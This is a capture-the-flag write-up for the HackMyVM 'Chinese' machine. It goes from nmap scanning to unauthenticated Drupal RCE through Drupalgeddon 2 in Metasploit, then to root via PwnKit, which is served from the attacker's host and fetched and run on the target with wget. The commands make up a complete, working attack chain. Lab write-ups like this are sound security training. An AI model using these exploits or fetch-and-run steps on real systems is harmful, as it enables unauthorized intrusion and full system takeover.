

# Chinese — HackMyVM Writeup

**Platform:** HackMyVM  
**Difficulty:** Easy  
**IP:** 172.20.10.6  

---

## Reconnaissance

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.6
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4
80/tcp    open  http    Apache httpd 2.4.10 (Drupal 7)
111/tcp   open  rpcbind
```

Nmap confirms **Drupal 7** running on port 80.

---


## Foothold — CVE-2018-7600 (Drupalgeddon 2)

Drupal 7 is vulnerable to Drupalgeddon 2 — a Forms API property injection vulnerability allowing unauthenticated RCE.

```bash
msf > use exploit/unix/webapp/drupal_drupalgeddon2
msf exploit(drupal_drupalgeddon2) > set RHOSTS 172.20.10.6
msf exploit(drupal_drupalgeddon2) > run
```

```
[+] The target is vulnerable.
[*] Meterpreter session 1 opened
```

Meterpreter session received as `www-data`:

```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Privilege Escalation — www-data → root

Dropping into a shell and searching for SUID binaries:

```bash
shell
find / -perm -4000 -type f 2>/dev/null
```

Notable findings:
```
/usr/bin/pkexec     ← CVE-2021-4034 (PwnKit)
/usr/sbin/exim4
```

Checking pkexec version:

```bash
pkexec --version
# pkexec version 0.105
```

Version 0.105 is vulnerable to **CVE-2021-4034 (PwnKit)** — patch was introduced in 0.120.

Serving the exploit from Kali:

```bash
# On Kali
git clone https://github.com/ly4k/PwnKit
cd PwnKit
python3 -m http.server 80
```

Downloading and executing on the target:

```bash
wget http://172.20.10.4/PwnKit -O /tmp/PwnKit
chmod +x /tmp/PwnKit
/tmp/PwnKit
```

```
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

---

## Flags

User flag was found in the web root (`/var/www/`):

```bash
cat /var/www/user.txt
```

```
CHINESE{web_low_privilege_success}
```

Root flag:

```bash
cat /root/root.txt
```

| Flag | Value |
|------|-------|
| User | `CHINESE{web_low_privilege_success}` |
| Root | *(read from /root/root.txt)* |
